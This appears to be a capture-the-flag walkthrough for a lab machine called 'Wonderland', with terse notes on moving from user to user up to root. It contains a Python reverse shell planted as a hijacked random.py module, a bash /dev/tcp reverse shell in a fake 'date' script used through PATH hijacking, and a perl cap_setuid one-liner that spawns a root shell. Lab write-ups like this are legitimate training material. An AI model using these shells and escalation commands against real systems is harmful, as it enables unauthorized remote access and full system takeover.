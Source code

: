 # Wonderland

Ports:

- 22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

/r/a/b/b/i/t/ contains ssh credentials

**Users**

- alice -> ssh creds in source
- rabbit -> run walrus as rabbit with malicious random.py
	alice can run walrus as rabbit:
	`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

	create a malicious random.py file
	```
	import os
	import socket
	import subprocess

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
	s.connect(("10.10.0.1",4444));
	os.dup2(s.fileno(),0);
	os.dup2(s.fileno(),1);
	os.dup2(s.fileno(),2);
	os.putenv("HISTFILE", "/dev/null");
	p=subprocess.call(["/bin/bash","-i"]);
	```

- hatter -> use teaParty call to date to run malicious date script by editing PATH
	create reverse shell bash script called date in /tmp:
	```
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.1.10/4444 0>&1
	```

	add /tmp to PATH variable:
	`export PATH=/tmp:$PATH`

	start a netcat listener and run ./teaParty

- root -> perl cap_setuid+ep, privesc
	ssh into the box as hatter with his password in his home directory

	run perl to elevate privileges to root:
	`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`



perl has cap_setuid+ep (root), hatter can execute